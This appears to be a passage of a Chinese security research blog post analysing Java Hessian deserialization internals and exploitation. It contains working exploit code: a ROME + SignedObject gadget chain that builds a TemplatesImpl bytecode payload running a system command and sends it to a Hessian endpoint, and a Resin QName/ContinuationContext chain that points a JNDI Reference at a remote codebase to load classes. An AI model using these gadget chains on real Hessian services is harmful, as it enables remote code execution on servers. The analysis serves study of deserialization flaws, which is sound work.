`sendRequest`里除了建立网络连接外，通过`HessianOutput#call`来序列化方法调用参数（`HessianOutput#writeObject`）



根据参数类型获取对应的序列化器。和获取反序列化器一样，这里匹配不到预置类型，只能获取默认的序列化器`UnsafeSerializer`



只要开启`_isAllowNonSerializable`，没有实现`Serializable`接口的类也能序列化！

这也是和原生反序列化的重大区别之一。

`UnsafeSerializer`的构造函数中使用`introspect()`自省序列化的类



看到这里序列化也跳过了`static`和`transient`修饰的字段

同样为每个字段分配其序列化器


# 0x04 Exploitation

由上分析，我们可得Hessian反序列化有如下特点：

* 只要开启`_isAllowNonSerializable`，未实现`Serializable`接口的类也能序列化
* 和原生反序列化一样，`static`和`transient`修饰的类不会被序列化和反序列化
* `source`不在`readObject`，而是利用`Map`类反序列化时会执行`put`操作，触发`HashMap->key.hashCode()、key.equals(k)`或`TreeMap->key.compareTo()`

> 上帝为`Hessian`关上了`readObject`这扇门，但同时也为它开启了`AllowNonSerializable`这扇窗

若目标RPC服务暴露出去的接口方法不接收Map类型参数，我们可以找远程对象从`HessianServlet`及其父类继承得到的方法。

看哪些方法接收Object或Map类型参数，在客户端的接口中添加方法即可，如

```java
public void setHome(Object home)
public void setObject(Object object)
```

Hessian可以配合以下来利用：

- Rome   <- hashCode
- XBean  <- equals
- Resin  <- equals
- Goovy  <- compareTo
- SpringPartiallyComparableAdvisorHolder    <- equals
- SpringAbstractBeanFactoryPointcutAdvisor  <- equals

# 0x05 ROME + SignedObject

Rome利用链中的`TemplatesImpl`由于其`_tfactory`被`transient`修饰，在`Hessian`中无法进行序列化。

> 这里插一句为啥之前可以打出来
>
> `TemplatesImpl`重写了`readObject`方法，在`readObject`中给`_tfactory`赋值了，而`Hessian`中序列化和反序列化中都不会处理`transient`修饰的字段
>
> 
>
> （`TemplatesImpl`那条链的`defineTransletClasses`要求`_tfactory`不为空，否则抛出异常）

Introducing~ `java.security.SignedObject#getObject`

```java
public final class SignedObject implements Serializable {
    public SignedObject(Serializable object, PrivateKey signingKey,
                        Signature signingEngine) {
        // creating a stream pipe-line, from a to b
        ByteArrayOutputStream b = new ByteArrayOutputStream();
        ObjectOutput a = new ObjectOutputStream(b);

        // write and flush the object content to byte array
        a.writeObject(object);
        a.flush();
        a.close();
        this.content = b.toByteArray();
        b.close();

        // now sign the encapsulated object
        this.sign(signingKey, signingEngine);
    }
    public Object getObject()
        throws IOException, ClassNotFoundException
    {
        // creating a stream pipe-line, from b to a
        ByteArrayInputStream b = new ByteArrayInputStream(this.content);
        ObjectInput a = new ObjectInputStream(b);
        Object obj = a.readObject();
        b.close();
        a.close();
        return obj;
    }
}
```

也是配合`ROME`去打，`toStringBean`触发`SignedObject#getObject`，进而反序列化`this.content`

这里就是原生反序列化了，而且刚好`SignedObject`的构造方法会帮我们序列化。

```java
import com.caucho.hessian.client.HessianProxyFactory;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import org.taco.hessian.service.Greeting;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.security.*;
import java.util.HashMap;


public class Client {
    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }

    public static byte[] getPayload() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClazz = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClazz);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        clazz.addConstructor(constructor);
        return clazz.toBytecode();
    }

    public static void main(String[] args) throws Exception {
        String url = "http://localhost:8080/hessian";

        HessianProxyFactory factory = new HessianProxyFactory();
        Greeting greet = (Greeting) factory.create(Greeting.class, url);

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{getPayload()});
        setFieldValue(obj, "_name", "p4d0rn");
        ToStringBean bean = new ToStringBean(Templates.class, obj);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);
        setFieldValue(badAttributeValueExpException, "val", bean);

        KeyPairGenerator keyPairGenerator;
        keyPairGenerator = KeyPairGenerator.getInstance("DSA");
        keyPairGenerator.initialize(1024);
        KeyPair keyPair = keyPairGenerator.genKeyPair();
        PrivateKey privateKey = keyPair.getPrivate();
        Signature signingEngine = Signature.getInstance("DSA");
        SignedObject signedObject = new SignedObject(badAttributeValueExpException, privateKey, signingEngine);

        ToStringBean toStringBean = new ToStringBean(SignedObject.class, signedObject);
        EqualsBean equalsBean = new EqualsBean(String.class, "p4d0rn");
        HashMap map = new HashMap();
        map.put(equalsBean, 1);

        setFieldValue(equalsBean, "_beanClass", ToStringBean.class);
        setFieldValue(equalsBean, "_obj", toStringBean);

        greet.setHome(map);
    }
}
```

# 0x06 Resin

`HashMap#put`会调用`key.equals(k)`，对比两个对象

`com.sun.org.apache.xpath.internal.objects.XString#equals`



`QName`是`Resin`对上下文`Context`的一种封装，它的`toString`方法会调用其封装类的`composeName`方法获取复合上下文的名称。

看类描述就知道这类不简单了

> Represents a parsed JNDI name.
>
> public class QName implements Name{}

`javax.naming.spi.ContinuationContext#composeName `



跟进`getTargetContext`，调用`NamingManager#getContext`



跟进`NamingManager#getContext` -> `NamingManager#getObjectFactoryFromReference`

首先试图通过当前上下文类加载器加载



```java
public Class<?> loadClassWithoutInit(String className) throws ClassNotFoundException {
    return loadClass(className, false, getContextClassLoader());
}
Class<?> loadClass(String className, boolean initialize, ClassLoader cl)
    throws ClassNotFoundException {
    Class<?> cls = Class.forName(className, initialize, cl);
    return cls;
}
```

这里的上下文类加载器是通过`Thread.currentThread().getContextClassLoader();`或`ClassLoader.getSystemClassLoader();`获取的

显然会找不到我们指定的类，再从Reference获取codebase。

高版本JDK默认不开启codebase（`trustURLCodebase`为`false`），这里也就无法通过URLClassLoader加载远程类了。



对于低版本JDK，就少了codebase这部分判断，直接远程加载类。



```java
import com.caucho.naming.QName;
import com.sun.org.apache.xpath.internal.objects.XString;

import javax.naming.CannotProceedException;
import javax.naming.Context;
import javax.naming.Reference;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;

public class Client {
    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }
    public static void main(String[] args) throws Exception {
        XString xString = new XString("p4d0rn");
        Class contextClass = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor constructor = contextClass.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        constructor.setAccessible(true);
        CannotProceedException cpe = new CannotProceedException();
        cpe.setResolvedObj(new Reference("calc", "calc", "http://127.0.0.1:8088/"));
        Context context = (Context) constructor.newInstance(cpe, new Hashtable());
        QName qName = new QName(context, "x", "y");
        HashMap map = new HashMap();
        xString.equals(qName);
    }
}
```

这里要构造可用的payload涉及到hash构造，先放着📌

# Spring AOP

# Spring Context + AOP

# Reference

* [Hessian 反序列化知一二 | 素十八](https://su18.org/post/hessian/)

* https://paper.seebug.org/1131/
